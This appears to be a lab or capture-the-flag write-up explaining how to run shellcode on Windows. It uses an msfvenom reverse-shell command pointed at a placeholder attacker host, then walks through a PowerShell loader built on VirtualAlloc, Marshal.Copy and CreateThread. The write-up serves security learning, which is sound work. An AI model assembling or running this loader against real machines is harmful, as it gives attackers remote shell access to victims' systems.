

# ShellCode

In this challenge we have to execute a shellcode on a vulnerable system to make it initiate a connection back to our machine. 

We can use tools like `msfvenom` which is a command line tool within the `metasploit framework`. 

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKBOX_IP LPORT=1111 -f powershell`

This command generates a shellcode for reverse shell. The attack box is the attackers system. 

Next we will use powershell scripting to execute the generated shellcode
We will be calling a few Win API's so lets understand that first

```c#
$VrtAlloc = @"
using System;
using System.Runtime.InteropServices;

public class VrtAlloc{
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);  
}
"@

```

`@" "` This is used to define multi line string in powershell. It is then stored in VirtAlloc variable.


[System](https://learn.microsoft.com/en-us/dotnet/api/system?view=net-9.0) is a namespace that contains fundamental classes and base classes that define commonly-used value and reference data types (Intptr), events and event handlers, interfaces, attributes, and processing exceptions.

[System.Runtime](https://learn.microsoft.com/en-us/dotnet/api/system.runtime?view=net-9.0) is another namespace that provides tools to interact with unmanaged code like the windows API

`DLLImport` allows .NET code to call functions from unmanaged DLLs such as kernel32.dll

[VirtualAlloc](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc) Is a Windows API function which is used to allocate memory in the process's virtual address space

```c#
public class WaitFor{
 [DllImport("kernel32.dll", SetLastError=true)]
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);   
}
```

[WaitForSingleObject](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject) A Windows API function that waits until the specified object is signaled or a timeout occurs.

The object is passed to the hHandle parameter.

```c#
public class CrtThread{
 [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
  
}
```

[CreateThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread) A Windows API function that creates a new thread in the calling process.

`Add-Type` compiles the c# code stored in the variable. It can then be accessed using that same variable

```powershell
[Byte[]] $buf = SHELLCODE_PLACEHOLDER
```
`[Byte[]]` Declares a byte array. The placeholder will be replaced with actual shellcode, which is machine code for a payload.

```powershell
[IntPtr]$addr = [VrtAlloc]::VirtualAlloc(0, $buf.Length, 0x3000, 0x40)
```

Allocates a memory region with executable and writable permissions, large enough to store the shellcode.
$addr: The memory address of the allocated region.

```powershell
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $buf.Length)
```

Copies the shellcode from the byte array $buf into the allocated memory at $addr.

```powershell
$thandle = [CrtThread]::CreateThread(0, 0, $addr, 0, 0, 0)
```

Creates a thread that begins execution at the memory address $addr, where the shellcode resides.

```powershell
[WaitFor]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

Waits indefinitely for the created thread to finish execution.

When the shellcode is executing, it initiates a connection back to the `ATTCACKBOX` IP address. If the attack box was actively listening then it gets the access to the shell.



